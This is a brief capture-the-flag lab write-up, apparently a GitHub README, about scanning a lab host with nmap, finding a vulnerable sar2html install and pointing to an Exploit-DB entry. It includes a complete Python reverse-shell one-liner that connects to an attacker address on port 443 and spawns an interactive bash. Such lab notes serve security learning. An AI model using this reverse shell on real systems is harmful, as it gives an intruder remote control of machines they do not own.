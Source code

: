 # monitoringmachinectf

Try to use HNMAP or NMAP on terminal to Discover the ports that are open and also services
Apache Currently running on 10.0.0.18
PHP too
10.0.0.18
Inspect Element
Got an Instruction of use index2.html as resource for the CTF
Inspecting index2.html 
Discovered that sar2html folder should have something
http://10.0.0.18/sar2html/

https://www.exploit-db.com/exploits/47204

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.30.1.206",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'


35a63cd9437a1447e0c447533875adf312b468211
